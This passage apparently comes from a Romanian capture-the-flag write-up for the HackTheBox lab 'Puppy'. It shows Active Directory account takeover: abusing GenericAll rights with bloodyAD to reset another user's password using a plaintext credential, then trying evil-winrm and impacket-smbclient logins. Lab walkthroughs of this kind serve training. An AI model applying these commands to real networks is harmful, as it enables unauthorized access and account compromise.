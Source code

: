 Fig, 18

8. In Bloodhound, contul ant.edwards esste peste adam.silver.

![Fig. 19 ](./image-18.png)

Fig. 19 

9.  Pentru a ne creea acces la adam.silver o sa trebuiasca sa ii punem o parola pe care o cunoastem. Avand in vedere ca ant.edward are genericall peste adam.silver, o sa ii putem sa ii schimbam parola. 

*bloodyAD --host 10.10.11.70 -d puppy.htb -u 'ant.edwards' -p 'Antman2025!' set password 'adam.silver' 'NewPass123'* 

![Fig. 20](./image-19.png)

Fig. 20

Incercand sa ma conectez la evil-winrm observam ca nu avem autorizatie.

*evil-winrm -i 10.10.11.70 -u 'PUPPY.HTB\adam.silver' -p 'NewPass123'* 

![Fig. 21](./image-20.png)

Fig. 21

Am incercat pe smbclient si primim informatia ca contul nostru este disabled. O sa incercam sa il activam 

*impacket-smbclient 'PUPPY.HTB/adam.silver:NewPass123'@10.10.11.70 -dc-ip 10.10.11.70* 
